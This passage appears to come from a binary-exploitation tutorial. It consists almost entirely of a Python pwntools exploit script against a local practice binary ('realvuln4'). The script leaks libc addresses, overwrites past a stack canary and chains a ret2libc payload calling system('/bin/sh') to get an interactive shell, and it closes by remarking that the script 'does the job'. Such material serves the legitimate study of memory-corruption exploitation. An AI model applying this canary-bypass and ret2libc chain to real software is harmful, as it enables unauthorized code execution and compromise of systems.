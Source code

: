 ```python

    bin_sh = int(libc.search("/bin/sh").next())
    print("[+] /bin/sh located @ offset {}".format(hex(bin_sh)))

    shell_addr = libc_base + bin_sh
    print("[+] Shell address is {}".format(hex(shell_addr)))

    print("[+] system@libc has offset: {}".format(hex(libc.symbols['system'])))
    system_call = libc_base + libc.symbols['system']
    print("[+] This puts the system call to {}".format(hex(system_call)))

    payload = ''
    payload += cyclic(1024)
    payload += p32(canary)
    payload += 'AAAA'
    payload += 'BBBBCCCC'
    #payload += p32(0x080485cb)          # jump to untouched to show code redirection
    #payload += p32(start_of_stack)      # jump to stack start if no DEP this allows easy shell popping
    payload += p32(system_call)
    payload += 'AAAA'
    payload += p32(shell_addr)
    return payload


def main():
    parser = argparse.ArgumentParser(description='pwnage')
    parser.add_argument('--dbg', '-d', action='store_true')
    args = parser.parse_args()

    exe = './binary/realvuln4'

    if args.dbg:
        r = gdb.debug([exe], gdbscript="""
                b *totallySafeFunc+42
                continue
                """)
    else:
        r = process([exe])

    r.recvuntil("echo> ")
    r.sendline(leak_addresses())

    leaked_adrs = r.recvline()
    print(leaked_adrs)

    exploit = payload(leaked_adrs)

    r.recvuntil("read> ")
    r.sendline(exploit)

    r.interactive()


if __name__ == '__main__':
    main()
    sys.exit(0)
```
This exploit is not the prettiest of all exploit scripts, but it does the job ;) .
